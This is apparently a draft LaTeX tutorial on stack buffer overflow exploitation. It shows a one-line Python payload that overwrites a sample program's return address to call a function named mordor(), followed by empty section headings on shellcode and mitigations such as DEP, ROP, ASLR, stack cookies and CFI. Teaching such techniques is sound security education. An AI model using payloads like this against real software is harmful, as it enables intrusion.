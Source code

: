 \documentclass[article]{uibk}
\begin{document}
\begin{pre}
> python -c "print 'A'*32 + '\x9b'" | ./overflow 
Enter text:
You entered: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA��
One does not simply jump into mordor()!
Segmentation fault (core dumped)
\end{pre}

And the function \texttt{mordor} has been executed, despite the segmentation
fault one can see that return address has been overwritten successfully.

\section{Shell Code}

\section{Data Execution Prevention (DEP)}

\section{Return Oriented Programming (ROP)}

\section{Address Space Layout Randomization (ASLR)}

\section{Stack Cookies}

\section{Control Flow Integrity (CFI)}

\section{Other Architectures}

\section{Conclusion}


\end{document}
